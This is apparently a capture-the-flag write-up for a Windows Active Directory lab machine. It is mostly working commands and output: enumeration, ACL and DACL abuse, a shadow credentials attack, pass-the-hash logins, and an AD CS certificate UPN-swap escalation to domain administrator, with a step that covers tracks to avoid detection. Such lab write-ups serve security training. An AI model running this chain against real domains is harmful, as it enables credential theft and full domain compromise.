



  

### Given Credential Username: judith.mader Password: judith09

Start off with a simple Nmap scan.

```jsx
──(kali㉿kali)-[~]
└─$ nmap 10.10.11.41              
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-11 09:08 EST
Nmap scan report for 10.10.11.41
Host is up (0.38s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl

Nmap done: 1 IP address (1 host up) scanned in 28.39 seconds
```

To get a complete overview, we use a service version scan with default scripts.

```jsx
──(kali㉿kali)-[~]
└─$ nmap -sV -sC -A 10.10.11.41
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-11 09:10 EST
Stats: 0:00:02 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 0.65% done
Nmap scan report for 10.10.11.41
Host is up (0.65s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-02-11 21:11:03Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-02-11T21:13:02+00:00; +7h00m04s from scanner time.
| ssl-cert: Subject: commonName=DC01.certified.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.certified.htb
| Not valid before: 2024-05-13T15:49:36
|_Not valid after:  2025-05-13T15:49:36
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.certified.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.certified.htb
| Not valid before: 2024-05-13T15:49:36
|_Not valid after:  2025-05-13T15:49:36
|_ssl-date: 2025-02-11T21:13:01+00:00; +7h00m04s from scanner time.
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-02-11T21:13:03+00:00; +7h00m05s from scanner time.
| ssl-cert: Subject: commonName=DC01.certified.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.certified.htb
| Not valid before: 2024-05-13T15:49:36
|_Not valid after:  2025-05-13T15:49:36
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.certified.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.certified.htb
| Not valid before: 2024-05-13T15:49:36
|_Not valid after:  2025-05-13T15:49:36
|_ssl-date: 2025-02-11T21:13:02+00:00; +7h00m05s from scanner time.
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019 (86%)
Aggressive OS guesses: Microsoft Windows Server 2019 (86%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-02-11T21:12:22
|_  start_date: N/A
|_clock-skew: mean: 7h00m04s, deviation: 0s, median: 7h00m03s

TRACEROUTE (using port 445/tcp)
HOP RTT       ADDRESS
1   711.37 ms 10.10.16.1
2   712.93 ms 10.10.11.41

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 166.76 seconds
```

To resolve the domain name into an IP address, we add it to `/etc/hosts`:

```jsx
──(kali㉿kali)-[~]
└─$ sudo cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali

10.10.11.41 certified.htb
10.10.11.41 DC01.certified.htb
```
Now, we use NetExec for SMB username enumeration.  

```jsx
┌──(kali㉿kali)-[~]
└─$ netexec smb 10.10.11.41 -u judith.mader -p  'judith09' --users --rid-brute
SMB         10.10.11.41     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)                                                                                                                                                          
SMB         10.10.11.41     445    DC01             [+] certified.htb\judith.mader:judith09 
SMB         10.10.11.41     445    DC01             -Username-                    -Last PW Set-       -BadPW- -Description-                                  
SMB         10.10.11.41     445    DC01             Administrator                 2024-05-13 14:53:16 0       Built-in account for administering the computer/domain                                                                                                                                                      
SMB         10.10.11.41     445    DC01             Guest                         <never>             0       Built-in account for guest access to the computer/domain                                                                                                                                                    
SMB         10.10.11.41     445    DC01             krbtgt                        2024-05-13 15:02:51 0       Key Distribution Center Service Account 
SMB         10.10.11.41     445    DC01             judith.mader                  2024-05-14 19:22:11 0        
SMB         10.10.11.41     445    DC01             management_svc                2024-05-13 15:30:51 0        
SMB         10.10.11.41     445    DC01             ca_operator                   2024-05-13 15:32:03 0        
SMB         10.10.11.41     445    DC01             alexander.huges               2024-05-14 16:39:08 0        
SMB         10.10.11.41     445    DC01             harry.wilson                  2024-05-14 16:39:37 0        
SMB         10.10.11.41     445    DC01             gregory.cameron               2024-05-14 16:40:05 0        
SMB         10.10.11.41     445    DC01             [*] Enumerated 9 local users: CERTIFIED

```

I tried to log in to `smbclient` to find some useful information but completely failed.  

```jsx
┌──(kali㉿kali)-[~]
└─$ smbclient -L  \\\\10.10.11.41\\ADMIN$ -U judith.mader
Password for [WORKGROUP\judith.mader]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
^[[Ado_connect: Connection to 10.10.11.41 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```
Then, I tried to have a PowerShell session using Evil-WinRM, and from there, I ran SharpHound for a complete AD picture. But again, I got the same result.  


```jsx
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i 10.10.11.41 -u judith.mader -p 'judith09'      
                                       
Evil-WinRM shell v3.7                                        
Info: Establishing connection to remote endpoint
                                        
Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError
                                        
Error: Exiting with code 1
                              
```
Then, I used NetExec to enumerate LDAP on `dc01.certified.htb` and collected Active Directory data for BloodHound.  

```jsx
──(kali㉿kali)-[~]
└─$ netexec ldap dc01.certified.htb -u judith.mader -p judith09 --bloodhound --collection All  --dns-server 10.10.11.41

SMB         10.10.11.41     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.41     389    DC01             [+] certified.htb\judith.mader:judith09 
LDAP        10.10.11.41     389    DC01             Resolved collection methods: group, localadmin, objectprops, trusts, session, psremote, acl, rdp, container, dcom
LDAP        10.10.11.41     389    DC01             Done in 01M 49S
LDAP        10.10.11.41     389    DC01             Compressing output into /home/kali/.nxc/logs/DC01_10.10.11.41_2025-02-11_093143_bloodhound.zip
                                                                                 
```

Now, we check the results in BloodHound.  

  


Here, we can see that **judith.mader** has **WriteOwner** permissions on the **Management** account. This means we can change the owner of the **Management** account in Active Directory.

### Steps to Exploit This:
#### 1️ Changing Ownership with `owneredit.py`
**What this does:**  
- Changes the owner of the **Management** object to **judith.mader**.  
- Since the owner can modify permissions, this sets up the next step.

#### 2️ Modifying DACL (Permissions) with `dacledit.py`
**What this does:**  
- Grants **judith.mader** **WriteMembers** permission on the **Management** group.  
- This means **judith.mader** can now add or remove members from the group.

#### 3️ Adding `judith.mader` to the "Management" Group
**What this does:**  
- Uses `net rpc` to add **judith.mader** to the **Management** group.  
- Since **judith.mader** has **WriteMembers** permission, the command succeeds.  


```jsx
                                                                                                                                                             
┌──(kali㉿kali)-[~/tool_pentest]
└─$ python3 owneredit.py -action write -new-owner 'judith.mader'  -target 'management' 'certified.htb'/'judith.mader':'judith09'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Current owner information below
[*] - SID: S-1-5-21-729746778-2675978091-3820388244-1103
[*] - sAMAccountName: judith.mader
[*] - distinguishedName: CN=Judith Mader,CN=Users,DC=certified,DC=htb
[*] OwnerSid modified successfully!
                                                                                                                                                             
┌──(kali㉿kali)-[~/tool_pentest]
└─$ python3 dacledit.py -action 'write' -rights 'WriteMembers' -principal 'judith.mader' -target 'Management' 'certified.htb'/'judith.mader':'judith09'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] DACL backed up to dacledit-20250214-022332.bak
[*] DACL modified successfully!
                                                                                                                                                             
┌──(kali㉿kali)-[~/tool_pentest]
└─$ net rpc group addmem "Management" "judith.mader" -U "certified.htb"/"judith.mader"%"judith09" -S "certified.htb"
```
Now, we verify the members of the **Management** group using:`rpc group members Management`

```jsx                                                          
┌──(kali㉿kali)-[~/tool_pentest]
└─$ net rpc group members "Management" -U "certified.htb"/"judith.mader"%"judith09" -S "certified.htb"                      
CERTIFIED\judith.mader
CERTIFIED\management_svc
                                
```
  

Now, we can see that **Management** has **GenericWrite** on **management_svc**, which means it allows a user or group to modify most attributes of the target object.

### Performing a Shadow Credentials Attack to Obtain a TGT

1. **Use PyWhisker to Add a Shadow Credential for management_svc**

2. **Use PKINITtools to Obtain a TGT Using the Certificate**

```jsx
──(venv)─(kali㉿kali)-[~/tool_pentest]
└─$ python3 pywhisker.py -d "certified.htb" -u "judith.mader" -p "judith09" --target "management_svc" --action "add"                                   

[*] Searching for the target account
[*] Target user found: CN=management service,CN=Users,DC=certified,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: 50ab534f-a46b-c4f5-6b86-427dfa5808ca
[*] Updating the msDS-KeyCredentialLink attribute of management_svc
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[+] Saved PFX (#PKCS12) certificate & key at path: 7tVgShqZ.pfx
[*] Must be used with password: NU0ILJNabrxJ9IL5TMOs
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
```

[link for PKINITtools](https://github.com/dirkjanm/PKINITtools.git)

```jsx
┌──(venv)─(kali㉿kali)-[~/tool_pentest/PKINITtools]
└─$ python3 gettgtpkinit.py -cert-pfx ../7tVgShqZ.pfx -pfx-pass "NU0ILJNabrxJ9IL5TMOs" certified.htb/management_svc TGT_krb5cc
2025-02-14 11:43:34,644 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2025-02-14 11:43:34,660 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2025-02-14 11:43:50,018 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2025-02-14 11:43:50,018 minikerberos INFO     200e9d29db6d2bb4be8e255e15e90da19ce2d5fb5708023c2f0a12d1364e4f9c
INFO:minikerberos:200e9d29db6d2bb4be8e255e15e90da19ce2d5fb5708023c2f0a12d1364e4f9c
2025-02-14 11:43:50,023 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
```

```jsx
──(venv)─(kali㉿kali)-[~/tool_pentest/PKINITtools]
└─$ export KRB5CCNAME=$(pwd)/TGT_krb5cc
```
Now, extract the **NT hash** of **management_svc** from the **TGT**.

```jsx
┌──(venv)─(kali㉿kali)-[~/tool_pentest/PKINITtools]
└─$ python3 getnthash.py certified.htb/management_svc -key 200e9d29db6d2bb4be8e255e15e90da19ce2d5fb5708023c2f0a12d1364e4f9c

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
a091c1832bcdd4677c28b5a6a1295584
```

Login with the **NT hash** to establish a **PowerShell session**.


```jsx
──(venv)─(kali㉿kali)-[~/tool_pentest/PKINITtools]
└─$ evil-winrm -i 10.10.11.41 -u management_svc -H a091c1832bcdd4677c28b5a6a1295584

                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\management_svc\Documents> ls
*Evil-WinRM* PS C:\Users\management_svc\Documents> cd ..
*Evil-WinRM* PS C:\Users\management_svc> cd Desktop
*Evil-WinRM* PS C:\Users\management_svc\Desktop> cat user.txt
*************52e10e797c0b573d0c6a
*Evil-WinRM* PS C:\Users\management_svc\Desktop> 

```         
  

Now we know that **management_svc** has **GenericAll** on **ca_operator**, so we change the password of **ca_operator**.

```jsx
Evil-WinRM* PS C:\Users\management_svc\Desktop> 
*Evil-WinRM* PS C:\Users\management_svc\Desktop> 
*Evil-WinRM* PS C:\Users\management_svc\Desktop> net user CA_Operator HelloCa /domain

The command completed successfully.

*Evil-WinRM* PS C:\Users\management_svc\Desktop>
```

Now, enumerate Certificate Authorities (CAs) and their templates.  
Search for vulnerable Certificate Authority (CA) configurations in Active Directory.

```jsx
┌──(venv)─(kali㉿kali)-[~/tool_pentest/PKINITtools]
└─$ certipy-ad find -u "ca_operator" -p "HelloCa" -dc-ip 10.10.11.41 -debug
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Authenticating to LDAP server
[+] Bound to ldaps://10.10.11.41:636 - ssl
[+] Default path: DC=certified,DC=htb
[+] Configuration path: CN=Configuration,DC=certified,DC=htb
[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[+] Trying to resolve 'DC01.certified.htb' at '10.10.11.41'
[*] Trying to get CA configuration for 'certified-DC01-CA' via CSRA
[+] Trying to get DCOM connection for: 10.10.11.41
[!] Got error while trying to get CA configuration for 'certified-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'certified-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[+] Connected to remote registry at 'DC01.certified.htb' (10.10.11.41)
[*] Got CA configuration for 'certified-DC01-CA'
[+] Resolved 'DC01.certified.htb' from cache: 10.10.11.41
[+] Connecting to 10.10.11.41:80
[*] Saved BloodHound data to '20250214121338_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[+] Adding Domain Computers to list of current user's SIDs
[*] Saved text output to '20250214121338_Certipy.txt'
[*] Saved JSON output to '20250214121338_Certipy.json'

```

Open the generated `.txt` file.

```jsx                                                                                                                                                 
┌──(venv)─(kali㉿kali)-[~/tool_pentest/PKINITtools]
└─$ cat 20250214121338_Certipy.txt | grep "Template Name" 

    Template Name                       : CertifiedAuthentication
    Template Name                       : KerberosAuthentication
    Template Name                       : OCSPResponseSigning
    Template Name                       : RASAndIASServer
    Template Name                       : Workstation
    Template Name                       : DirectoryEmailReplication
    Template Name                       : DomainControllerAuthentication
    Template Name                       : KeyRecoveryAgent
    Template Name                       : CAExchange
    Template Name                       : CrossCA
    Template Name                       : ExchangeUserSignature
    Template Name                       : ExchangeUser
    Template Name                       : CEPEncryptio
```

Modifies account attributes in Active Directory to set the `ca_operator` user with an updated User Principal Name (UPN) to `administrator`.


```jsx
┌──(venv)─(kali㉿kali)-[~/tool_pentest/PKINITtools]
└─$ certipy-ad account update -u management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -user ca_operator  -upn administrator

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_operator':
    userPrincipalName                   : administrator
[*] Successfully updated 'ca_operator'

```

Requests a certificate from the Certificate Authority (CA) using the `CertifiedAuthentication` template.

```jsx
──(venv)─(kali㉿kali)-[~/tool_pentest/PKINITtools]
└─$ certipy-ad req -u ca_operator@certified.htb -p "HelloCa" -ca "certified-DC01-CA" -template "CertifiedAuthentication"
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 4
[*] Got certificate with UPN 'administrator'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

Restores `ca_operator`'s UPN to avoid detection while still possessing `administrator.pfx` for further attacks.

```jsx
┌──(venv)─(kali㉿kali)-[~/tool_pentest/PKINITtools]
└─$ certipy-ad account update -u management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -user ca_operator  -upn ca_operator@certified.htb 

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_operator':
    userPrincipalName                   : ca_operator@certified.htb
[*] Successfully updated 'ca_operator'
```

So basically we are doing this


1️ **Modify ca_operator UPN to administrator**  
   - Updates `ca_operator`'s User Principal Name (UPN) to `administrator`, enabling certificate-based authentication as `administrator`.

2️ **Request a Certificate for administrator (Abusing AD CS)**  
   - Requests a certificate using the `CertifiedAuthentication` template, successfully obtaining a `.pfx` file for `administrator`.

3️ **Revert ca_operator UPN to its original state**  
   - Restores `ca_operator`'s UPN to avoid detection while still possessing `administrator.pfx` for further attacks.

Now, we use `certipy-ad` to authenticate to Active Directory using the obtained certificate.

```jsx
┌──(venv)─(kali㉿kali)-[~/tool_pentest/PKINITtools]
└─$ certipy-ad auth -pfx administrator.pfx -domain certified.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@certified.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@certified.htb': aad3b435b51404eeaad3b435b51404ee:************1751f708748f67e2d34                                                                                      
```
login with the administrator hash and we have a flag.txt.

```jsx
┌──(venv)─(kali㉿kali)-[~/tool_pentest/PKINITtools]
└─$ evil-winrm -i 10.10.11.41 -u administrator -H ************e1751f708748f67e2d34

                                        
Evil-WinRM shell v3.7                                        
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
************f71c4d1f5b198c4db6a4

```
